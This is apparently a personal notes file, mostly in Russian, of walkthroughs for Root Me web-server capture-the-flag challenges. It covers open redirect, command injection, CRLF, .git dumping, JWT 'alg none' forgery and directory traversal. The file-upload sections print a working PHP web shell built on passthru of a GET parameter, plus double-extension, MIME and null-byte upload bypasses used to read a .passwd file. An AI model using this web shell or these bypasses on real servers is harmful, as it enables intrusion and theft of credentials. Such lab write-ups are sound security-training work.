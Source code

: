 # Root me 

## Web Server

### 1. HTML - Source code

1) Checked page source ctrl+U.

### 2. HTTP - Open redirect

1) Обратить внимание на ссылку у кнопок соц сетей.
2) Структура состоит из ссылки и её хэша.
3) Узнать какой хэш можно на cyber chief.
4) Остаётся подставить любой другой сайт, посчитать хэш md5 и в бурпе просмотреть запросы. В теле редиректа будет флаг.

### 3. HTTP - User-agent

1) В хэдере изменить содержимое user-agent на admin.
   
### Weak password

1) Можно побрутить логин админ по словарю или вручнуб перебрать подхолящие тупые пароли.

### 4. PHP - Command injection

1) Для иньекции можно использовать & или ; cat index.php

### 5. Backup file

1) Проверить временный файл ~index.php. Идея берётся из owasp гайда

### 6. HTTP - Directory indexing

1) Проверить исходники страницы
2) Пройти по ссылке и следовать подсказкам на испанском блин

### 7. HTTP - Headers

1) Проверить в сыром виде заголовки респонса
2) Заменить значение необычного заголовкан на true

### 8. HTTP - POST

1) Перехватить POST запрос
2) Модифицировать очки для выигрыша в игре

### 9. HTTP - Improper redirect

1) Нарваться на ридеркт потыкаясь по дирректориям или взаимодействуя с формой
2) Просмотреть редирект в бурпе

### 10. HTTP - Verb tampering

1) Легенды гласят о технике подмены типа запроса для вызова ошибки у апача.

### 11. Install files

1) Дирбастинг на основе знания об устанавливаемом фреймворке
2) Поиск сенсетив информэйшн

### 12. CRLF

1) Инекция в бурпе строки аутентификации админа с символами: \r или \n - в urlencode для переноса ошибочной авторизации на строку ниже.

### 13. File upload - Double extensions

1) PHP имеет особенность, что он может парсить код не только из php-файлов, что даёт возможность модифицировать только расширение без MIME type в post запросе.

Англоязычный коллега удачно подсказал пейлоад с get параметром:
```php    
    Create a PHP file named "filename.php" containing this code:
        <?php echo "<pre>".passthru($_GET['command'])."</pre>"; ?>

    This script executes any shell command on the server by inserting a "command" parameter in GET request.
    Upload the PHP script as it is, you get "Wrong file extension!" error.
    Append either .gif|.jpg|.png to the filename, e.g. "filename.php.png".
    Upload the renamed PHP file. The server is fooled, thinks your file is an image and uploads it.
    Click on the "Stored in" URL. Instead of displaying an image, your PHP script is executed.
    Append "?command=ls -a ../../.." to the URL. This shell command is executed and displays the files contained in this directory, including hidden files (like ".passwd").
    Now that we’ve found the ".passwd" file, append "?command=cat ../../../.passwd" to the URL. It displays the content of the ".passwd" file, which is the password. Voila!
```

### 14. File upload - MIME type

```php    
    1) Create a PHP file named "filename.php" containing this code:
        <?php echo "<pre>".passthru($_GET['command'])."</pre>"; ?>

    This script executes any shell command on the server by inserting a "command" parameter in GET request.
    Upload the PHP script as it is, you get "Wrong file extension!" error.
    2) Append either .gif|.jpg|.png to the filename, e.g. "filename.php.png".
    3) Change MIME/type. Upload the renamed PHP file. The server is fooled, thinks your file is an image and uploads it.
    4) Click on the "Stored in" URL. Instead of displaying an image, your PHP script is executed.
    Append "?command=ls -a ../../.." to the URL. This shell command is executed and displays the files contained in this directory, including hidden files (like ".passwd").
    Now that we’ve found the ".passwd" file, append "?command=cat ../../../.passwd" to the URL. It displays the content of the ".passwd" file, which is the password. Voila!
```

### 15. HTTP - Cookies

1) В куках изменить одно значение на admin

### 16. Insecure Code Management

Tools for extracting .git
* https://github.com/arthaud/git-dumper

```bash
  kali@kali:~/Desktop$ ./git-dumper/git-dumper.py http://challenge01.root-me.org/web-serveur/ch61/.git ~/Desktop/her/ -j 4
```

* Using GitTool : https://github.com/internetwache/GitTools

  1. Git Dumper :
  - Get .git on web server to local

  ./gitdumper.sh http://challenge01.root-me.org/web-serveur/ch61/.git/ /tmp/root

  2.Extractor
  - Extractor code in .git folder

  ./extractor.sh /tmp/root/ /tmp/rootme

  3.Read code and find password

  grep -r "$password"

  4. Finnal
   
* wget --recursive --no-parent http://challenge01.root-me.org/web-serveur/ch61/.git/ 

* dvcs-ripper

```bash
    kali@kali:~/Desktop/New Folder$ ../dvcs-ripper/rip-git.pl -u http://challenge01.root-me.org/web-serveur/ch61/.git/ -c -m
```

### 17. JSON Web Token (JWT) - Introduction

1. Put JWT from guest login to https://jwt.io/
2. The grab first part decoded in json format and chang alg to none then encode it with https://www.base64encode.org/
3. On jwt.io change firt part of hash (before first . ) to new one you just mate with alg none...
4. On jwt change payload guest->admin
5. Grab new JWT and change your cookie value with it.
6. Refresh webpage

### 18. Directory traversal

1. Visit the Challenge Site: http://challenge01.root-me.org/web-serveur/ch15/ch15.php
2. Click on a Tab (f.e Device)
3. In the URL Bar you see, how the Galaries are Accessed: ?galerie=devices
4. Now we use Directory Transversal
    1. remove the "devices" after "galarie="
    2. The URL should look like this now: http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=./
    3. Go to the URL
5. Now there are 6 new Icons Displayed directly on the Page
6. Open the Source of the Site
7. Check the href for each, you should find: http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r
    now insert the new Name in the Original URL. It should look like: http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r
9. There are now new icons when you Load the URL
10. Open the Source Code again
11. There is a File liked "password.txt" with the Link: http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt
12. Open the Link: http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt and grab the Password

### 19. File upload - Null byte

1. Upload file with title hero.php%00.jpeg

### 20. JSON Web Token (JWT) - Weak secret

1. 
